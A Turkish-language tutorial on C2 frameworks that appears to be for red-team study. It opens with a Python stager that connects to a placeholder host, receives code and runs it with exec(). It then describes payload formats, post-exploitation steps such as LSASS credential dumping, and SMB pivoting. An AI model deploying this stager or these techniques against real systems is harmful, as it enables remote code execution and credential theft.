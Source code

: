 Örnek bir python kodu :

    import socket
    import subprocess

    clientSocket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    clientSocket.connect(("127.0.0.1", 4444))

    stage2code = clientSocket.recv(1024).decode()

    exec(stage2code)

### Payload Formatları

Bildiğiniz gibi Windows PE dosyaları (Yürütülebilir dosyalar) bir sistemde kod çalıştırmanın tek yolu değildir. Bazı C2 frameworkleri diğer çeşitli formatlardaki payloadları destekler, örneğin:

+ PowerShell Komut Dosyaları

        C# Kodu içerebilen ve Add-Type komutuyla derlenip çalıştırılabilen
+ HTA Dosyaları
+ JScript Dosyaları
+ Visual Basic Uygulaması/Komut Dosyaları
+ Microsoft Office Belgeleri

ve daha fazlası.

### Payload Modülleri

Modüller herhangi bir C2 framework'ünün temel bileşenidir; clientleri ve C2 sunucusunu daha esnek hale getirme yeteneğini eklerler. C2 framework'üne bağlı olarak komut dosyalarının farklı dillerde yazılması gerekir. Cobalt Strike, “Saldırgan Script Dili(Aggressor Scripting Language)” ile yazılmış “Saldırgan Scriptleri”ne sahiptir. PowerShell Empire'ın birden fazla dil desteği vardır, Metasploit'in Modülleri Ruby'de yazılmıştır ve diğer pek çok araç başka birçok dilde yazılmıştır.

#### Sömürü Sonrası(Post-Exploitation) Modülleri

Sömürü soonrası modülleri, ilk etkileşim sonrası herhangi bir şeyle ilgilenen modüllerdir; bu, yatay hareket yollarını bulmak için SharpHound.ps1'i çalıştırmak kadar basit olabilir veya LSASS'ı dump ve kimlik bilgilerini bellekte ayrıştırmak kadar karmaşık olabilir.

#### Döner(Pivoting) Modüller

C2 framework'ünün son ana bileşenlerinden biri, C2 framework içindeki kısıtlı ağ bölümlerine erişimi kolaylaştıran döner modüllerdir. Bir sistemde Yönetici Erişiminiz varsa, bir makinenin SMB protokolü aracılığıyla proxy görevi görmesini sağlayan bir "SMB Beacon" açabilirsiniz. Bu, kısıtlı ağ kesimindeki makinelerin C2 sunucunuzla iletişim kurmasına olanak tanıyabilir.
